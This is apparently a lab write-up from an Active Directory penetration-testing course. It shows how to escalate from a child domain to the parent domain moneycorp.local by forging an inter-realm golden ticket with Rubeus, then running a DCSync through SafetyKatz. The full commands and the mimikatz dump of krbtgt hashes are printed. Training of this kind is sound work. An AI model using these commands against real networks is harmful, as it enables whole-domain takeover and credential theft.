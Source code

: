 ```yaml
---
description: Learning Object 19
icon: vial
---
```


# 19 - LO1️9️

## Tasks



1 - Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using dollarcorp's krbtgt hash

Flag 30 \[mcorp-dc] - NTLM hash of krbtgt of moneycorp.local 🚩



## Solutions

### 1 - Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using dollarcorp's krbtgt hash

We already have the krbtgt hash from dcorp-dc. Let's create the inter-realm TGT and inject. Run the below command:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

We can now access mcorp-dc!

```powershell
winrs -r:mcorp-dc.moneycorp.local cmd
set username
set computername
```

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

We can also execute the DCSync attacks against moneycorp. Use the following command in the above prompt where we injected the ticket:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

```
mimikatz(commandline) # lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local
[DC] 'moneycorp.local' will be the domain
[DC] 'mcorp-dc.moneycorp.local' will be the DC server
[DC] 'mcorp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 10:46:24 PM
Object Security ID   : S-1-5-21-335606122-960912869-3279953914-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: a0981492d5dfab1ae0b97b51ea895ddf
    ntlm- 0: a0981492d5dfab1ae0b97b51ea895ddf
    lm  - 0: 87836055143ad5a507de2aaeb9000361

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 7c7a5135513110d108390ee6c322423f

* Primary:Kerberos-Newer-Keys *
    Default Salt : MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 90ec02cc0396de7e08c7d5a163c21fd59fcb9f8163254f9775fc2604b9aedb5e
      aes128_hmac       (4096) : 801bb69b81ef9283f280b97383288442
      des_cbc_md5       (4096) : c20dc80d51f7abd9

* Primary:Kerberos *
    Default Salt : MONEYCORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : c20dc80d51f7abd9

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  49fec950691bbeba1b0d33d5a48d0293
    02  0b0c4dbc527ee3154877e070d043cd0d
    03  987346e7f810d2b616da385b0c2549ec
    04  49fec950691bbeba1b0d33d5a48d0293
    05  0b0c4dbc527ee3154877e070d043cd0d
    06  333eda93ecfba8d60c57be7f59b14c62
    07  49fec950691bbeba1b0d33d5a48d0293
    08  cdf2b153a374773dc94ee74d14610428
    09  cdf2b153a374773dc94ee74d14610428
    10  a6687f8a2a0a6dfd7c054d63c0568e61
    11  3cf736e35d2a54f1b0c3345005d3f962
    12  cdf2b153a374773dc94ee74d14610428
    13  50f935f7e1b88f89fba60ed23c8d115c
    14  3cf736e35d2a54f1b0c3345005d3f962
    15  06c616b2109569ddd69c8fc00c6a413c
    16  06c616b2109569ddd69c8fc00c6a413c
    17  179b9c2fd5a34cbb6013df534bf05726
    18  5f217f838649436f34bbf13ccb127f44
    19  3564c9de46ad690b83268cde43c21854
    20  1caa9da91c85a1e176fb85cdefc57587
    21  27b7de3c5a16e7629659152656022831
    22  27b7de3c5a16e7629659152656022831
    23  65f5f95db76e43bd6c4ad216b7577604
    24  026c59a45699b631621233cb38733174
    25  026c59a45699b631621233cb38733174
    26  342a52ec1d3b39d90af55460bcda72e8
    27  ef1e1a688748f79d16e8e32318f51465
    28  9e93ee8e0bcccb1451face3dba22cc69
    29  480da975c1dfc76717a63edc6bb29d7b


mimikatz(commandline) # exit
Bye!
```

### Flag 30 \[mcorp-dc] - NTLM hash of krbtgt of moneycorp.local 🚩

krbtgt NTLM has is:

```
Hash NTLM: a0981492d5dfab1aeXXXXXXXXXXXXXXX
```
